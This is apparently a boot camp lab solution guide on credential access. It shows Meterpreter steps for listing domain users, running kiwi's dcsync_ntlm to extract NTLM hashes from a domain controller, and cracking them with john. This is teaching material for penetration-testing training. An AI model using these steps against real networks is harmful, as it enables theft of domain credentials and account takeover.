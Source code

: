 ## Solution Guide: Credential Access

In this activity, you used your SYSTEM access on the domain controller to make a copy of the `NTDS.dit` file and attempted to crack the password hashes in it.

### Instructions

1. In Meterpreter, enter a shell, then view the users on the machine via the `net` command.

	- `net users`

2. Exit the command shell, then load `kiwi` and perform `dcsync_ntlm` in Meterpreter for each of the users. Run the command `dcsync_ntlm` to see the usage.

    - `dcsync_ntlm`

     ![A screenshot depicts the results of the command.](dcsync.PNG)

3. Take each NTLM hash and place them in a text file. Using `john`, crack the hashes in the file.

    - `john hash.txt --format=NT `

     ![A screenshot depicts the results of the command.](john.PNG)

4. View solved hashes with the command `john --show <file_name>`

---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



